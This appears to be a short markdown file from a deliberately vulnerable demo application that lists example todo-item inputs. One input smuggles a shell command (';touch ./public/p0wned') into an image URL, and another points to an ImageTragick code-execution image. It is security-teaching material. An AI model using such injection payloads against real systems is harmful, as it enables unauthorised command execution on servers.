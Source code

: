 ### Example
```markdown
![alt text](https://raw.githubusercontent.com/Snyk/goof/feat/oreilly/exploits/snyk.png "Image todo item")
```

### Shell Command Injection
```markdown
![alt text](https://raw.githubusercontent.com/Snyk/goof/feat/oreilly/exploits/snyk.png;touch ./public/p0wned "Image todo item")
```

### Code Execution - ImageTragick vulnerability
```markdown
![alt text](https://raw.githubusercontent.com/Snyk/goof/master/exploits/imagetragick_rce1.png "Image todo item")
```





